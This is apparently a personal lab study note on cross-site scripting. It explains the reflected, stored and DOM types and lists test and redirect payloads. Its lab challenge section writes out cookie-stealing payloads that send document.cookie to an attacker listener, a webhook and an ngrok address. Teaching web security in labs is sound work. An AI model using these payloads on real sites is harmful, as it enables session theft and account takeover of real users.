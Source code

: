 
Lets us execute Javascript in victims browser and often gives us control over the application for that user

Three main types of XSS

1) Reflected XSS : Script we are trying to inject comes from current HTTP request. We send a request, we get a response and that script is included in the response. So vulnerable script
   included in same request response

2) Stored XSS : Payload stored in database and retrieved later. Has much higher impact

3) DOM XSS : Client side has vulnerable Javascript that trusts vulnerable input instead of having the vulnerability server side

***Keep an eye on the network tab, if no request sent then client side injection, DOM XSS.
If request sent to the server, check if its stored in database or sent back in same request-response, depending on that it might be Stored XSS or Reflected XSS***

---

### Basic XSS Attack

User input being reflected on web page, so maybe Reflected XSS?

Give input and check network tab, nothings fills up network tab, so all things happening client side

 It is all happening on client side. In reflected XSS we get a response from server after entering an input which can be seen in the network tab

```js
<script>prompt(1)</script>
```


this becomes part of the page but we need something to trigger it

```js
<img src onerror="prompt(1)"/>
```


OR


```js
<iframe src onload="alert`1`"/>
```

to forward the user to different location

```js
<img src onerror="window.location.href='targetAddress'">
```

Example :

```js
<img src=x onerror="window.location.href='https://google.com'"> 
```


targetURL also inside quotes

---


### Stored XSS

Server Side Injection so some traffic can be seen in network tab(same for reflected XSS)

Spawn 2 containers

set cookie in one of the containers

to check if cookie is set 1)console.log(document.cookie) 2)Dev tool -> Storage ->Cookie

_**to check for XSS first try HTML injection coz that is likely to work**_

in the input field

```html
<h1>test</h1>
```

HTML injection works, now try for XSS

```js
<script>prompt(1)</script>
```

go in other container and we get prompt so it is stored

to get the cookie of other users

```js
<script>alert(document.cookie)</script>
```


***If http only flag set, JS cannot access the cookies***


---

### Lab Challenge

stored xss

escape \<p> tag first

```js
</p> <script>new Image().src="http://192.168.57.5:4444/?"+ encodeURI(document.cookie);</script>
```

OR

```js
</p><script>var i=new Image; i.src="webHookAddress/?"+document.cookie;</script>
```

We want the cookie to be appended to the URL but as a paramter so, add /?
If we dont do this, cookie will be attached to URL which will change the URL
and we wont we able to capture the request with netcat or webhook

new Image() constructor create an image object it is similar to

document.createElement("image")

The encodeURIComponent() function encodes a URI by replacing each instance of certain characters by one, two, three, or four escape sequences representing the UTF-8

Cookie exfiltration
```js
<script>
fetch('https://webhook', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

```js
fetch(`https://ae1c-43.ngrok-free.app?${encodeURIComponent(document.cookie)}`, { method: "get", headers: new Headers({ "ngrok-skip-browser-warning": true }) })
```
---
